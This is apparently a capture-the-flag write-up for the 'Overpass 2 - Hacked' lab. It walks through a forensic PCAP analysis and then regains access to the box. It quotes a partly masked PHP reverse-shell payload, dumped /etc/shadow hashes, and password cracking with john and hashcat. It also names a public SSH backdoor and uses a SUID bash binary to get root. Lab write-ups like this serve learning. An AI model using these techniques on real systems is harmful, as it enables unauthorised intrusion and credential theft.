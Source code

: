 # Overpass 2 - Hacked

## Task 1

Analyse PCAP file with Wireshark

```bash
wireshark overpass2.pcapng
```

#### URL used to upload shell
Chech HTTP requests with filter `http.request.method==POST`
`/************/`

#### payload

```php
<?php exec("rm /tmp**********4**2 >/tmp/f")?>

```

Attacker's machine: ip `192.***.***.145` port `4**2`

#### Password 

`whenevernoteartinstant.`


#### established persistance
https://github.com/NinjaJc01/ssh-backdoor


#### how many crackable with fasttrack passwords a there?
Find the request with `/etc/shadow` dump
using WireShark filter: `tcp.port == 4**2 and frame contains "shadow"`

Follwo found TCP request.

Found `sudo cat /etc/shadow` output:
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
[...]
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

```

Save them to file `pass.pwd`

Using john the ripper to crack them with fasttrack
```bash
john --wordlist=/opt/wordlists/fasttrack.txt pass.pwd
```

John foound passwords.


## Task 2

### What's the default hash for the backdoor?
Can be found on backdoor's GitHub page (see above) in `main.go` file:

`bdd04d9bb76***********************************************acd01fc2170e3`

### What's the hardcoded salt for the backdoor?
In the bottom of the same file as above:
`1c36*************a05`

### What was the hash that the attacker used?
Check the moste bottom of Follow TCP stream window (right where we found passwprd hashes):

```bash
6d053*******************************************e98ad1fec71bed
```

Saved hash to `backdoor.hash`

### Crack the hash using rockyou
From backdoor source we know that hashing algorytm is SHA512 and the order: `password` + `salt`
```golang
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```

Using `hashcat` to crach hash. Wiki: https://hashcat.net/wiki/doku.php?id=hashcat

Acording to wiki
```
 1710 | sha512($pass.$salt)  | Raw Hash, Salted and/or Iterated
```

So `1710` mode is what I need.

Add salt to our `backdoor.hash` file so it will look like `hash:salt`

Let's crack!

```bash
hashcat -m 1710 -a 0 -o backdoor.txt backdoor.hash /opt/wordlists/rockyou.txt
```

Results will be `hash:salt:<found_password>`:
```
6d0****c71bed:1c36************a05:no******16
```

## Task 3

Connect to box.

Box IP:
```bash
export IP=10.10.59.60
```


### What message did they leave as a heading? 

Got to http://<IP>

`H4********an`


### Using the information you've found previously, hack your way back in!

Using previously found info, connect to server.

But first enumerate!

```bash
mkdir nmap 

nmap -sV -sC -Pn -v -oN nmap/report $IP
```

```bash
ssh james@$IP -p <port>
james@10.10.59.60's password: *****
```


## Flag 1
```bash
cat ~/user.txt
```

## Flag 2

There is interesting file in james home directory: `.suid_bash`

Using it, we are in root shel!

```bahs
./.suid_bash -p

.suid_bash-4.4# whoami
root
```

Get the flag:
```bash
cat /root/root.txt
```